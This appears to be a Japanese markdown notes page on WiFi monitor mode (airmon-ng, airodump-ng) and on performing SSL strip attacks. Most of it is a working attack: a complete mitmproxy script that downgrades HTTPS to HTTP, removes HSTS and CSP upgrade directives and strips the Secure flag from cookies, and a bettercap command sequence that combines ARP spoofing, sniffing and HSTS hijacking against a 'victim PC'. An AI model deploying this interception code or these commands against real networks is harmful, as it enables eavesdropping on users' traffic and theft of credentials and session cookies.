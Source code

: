 # モニターモード

## コマンド

```
# アダプターをモニターモードにする
sudo airmon-ng check kill
sudo airmon-ng start wlan0

# 周囲のWiFiをモニターする
sudo airmon-ng wlan0mon

# 特定のSSID/APに絞ってモニターする
sudo airodump-ng <AP MAC address> --channel <channel No> wlan0
```

## 参考文献・サイト

- [WIFI アダプターをモニターモードにする(WIFI クラッキングに必須)](https://medium.com/ethical-hacking-%E3%83%9B%E3%83%AF%E3%82%A4%E3%83%88%E3%83%8F%E3%83%83%E3%82%AB%E3%83%BC/wifi%E3%82%A2%E3%83%80%E3%83%97%E3%82%BF%E3%83%BC%E3%82%92%E3%83%A2%E3%83%8B%E3%82%BF%E3%83%BC%E3%83%A2%E3%83%BC%E3%83%89%E3%81%AB%E3%81%99%E3%82%8B-%E6%9C%80%E9%87%8D%E8%A6%81%E3%82%B9%E3%82%AD%E3%83%AB-5ee7a57e5165)

# SSL Strip 攻撃

## SSL Strip 攻撃について

SSL Strip 攻撃の概要ついては[この論文](https://www.sci.kanagawa-u.ac.jp/info/matsuo/pub/pdf/IPSJCSS2016107.pdf)が説明してくれている。

## mitmproxy を用いた実装

### Python コード

1. mitmproxy の任意のディレクトリにファイルを作成し、以下のコードを実装する。

```
"""
参考コード
https://github.com/mitmproxy/mitmproxy/blob/main/examples/contrib/sslstrip.py

正規表現操作についての参考文献
https://qiita.com/FukuharaYohei/items/459f27f0d7bbba551af7

assertについて
https://qiita.com/nannoki/items/15004992b6bb5637a9cd

Set-Cookieについての説明
https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Set-Cookie
"""

import re
import urllib.parse
import typing
from mitmproxy import http

secure_hosts: typing.Set[str] = set()

def request(flow: http.HTTPFlow) -> None:
    # If-Modified-Since:
    # リクエストの条件を無くす
    flow.request.headers.pop('If-Modified-Since', None)

    # Cache-Control:
    # リクエストとレスポンスの両方でキャッシュのためのディレクティブ (指示) が格納されている
    flow.request.headers.pop('Cache-Control', None)

    # Upgrade-Insecure-Requests:
    # ユーザーエージェントに、すべてのサイトの安全でないURL (HTTP経由で提供されるURL) を
    # セキュリティで保護された URL (HTTPSを介して提供されるもの) で置き換えられたかのように処理するよう指示
    flow.request.headers.pop('Upgrade-Insecure-Requests', None)

    # リクエストで受けとったホスト名が、配列として保持しているホスト名の中に存在するならば、そのスキーム及びポート番号を変更
    if flow.request.pretty_host in secure_hosts:
        flow.request.scheme = 'https'
        flow.request.port = 443
        flow.request.host = flow.request.pretty_host

def response(flow: http.HTTPFlow) -> None:
    assert flow.response

    # Strict-Transport-Security:
    # ウェブサイトがブラウザに HTTP の代わりに HTTPS を用いて通信を行うよう指示するためのもの
    # これは必須（っぽい）
    flow.response.headers.pop('Strict-Transport-Security', None)

    # これは、HTMLファイル内に埋め込まれているハイパーリンクのスキームも書き換えてしまう。
    # ブラウザ側でバレバレだったのでいらないかも、一旦コメントアウト
    # flow.response.content = flow.response.content.replace(b'https://', b'http://')

    # <meta>要素を用いてCSPを指定している場合、この該当部分をコンテンツから消す
    csp_meta_tag_pattern = br'<meta.*http-equiv=["\']Content-Security-Policy[\'"].*upgrade-insecure-requests.*?>'
    flow.response.content = re.sub(csp_meta_tag_pattern, b'', flow.response.content, flags=re.IGNORECASE)

    # ヘッダのスキームの書き換え
    if flow.response.headers.get('Location', '').startswith('https://'):
        location = flow.response.headers['Location']
        hostname = urllib.parse.urlparse(location).hostname
        if hostname:
            secure_hosts.add(hostname)
        flow.response.headers['Location'] = location.replace('https://', 'http://', 1)

    csp_header = flow.response.headers.get('Content-Security-Policy', '')
    if re.search('upgrade-insecure-requests', csp_header, flags=re.IGNORECASE):
        csp = flow.response.headers['Content-Security-Policy']
        new_header = re.sub(r'upgrade-insecure-requests[;\s]*', '', csp, flags=re.IGNORECASE)
        flow.response.headers['Content-Security-Policy'] = new_header

    cookies = flow.response.headers.get_all('Set-Cookie')
    cookies = [re.sub(r';\s*secure\s*', '', s) for s in cookies]
    flow.response.headers.set_all('Set-Cookie', cookies)
```

2. 以下のコマンドを実行

```
$ mitmproxy -s <ファイル名>.py
```

## bettercap を用いた実装

### 準備物

- ALFA Network long range usb adapter
- GL-AR300M(Shadow)
- 被害者 PC
- 攻撃者 PC(ツール：kali linux)

### 手順

1. 攻撃者 PC と被害者 PC を同じ LAN に入れる。
1. [kali linux](https://www.kali.org/get-kali/#kali-platforms)に[bettercap](https://github.com/bettercap/bettercap)を`clone`。
1. root 権限で以下のコマンドを順に実行していく。

```
  $ bettercap -iface wlan0
  $ caplets.update
  $ set http.proxy.sslstrip true
  $ hstshijack/hstshijack
  $ net.probe on
  $ net.sniff on
  $ arp.spoof on
```

これで対称のクライアントに SSL Strip を実装できる。ただしバレバレではある。
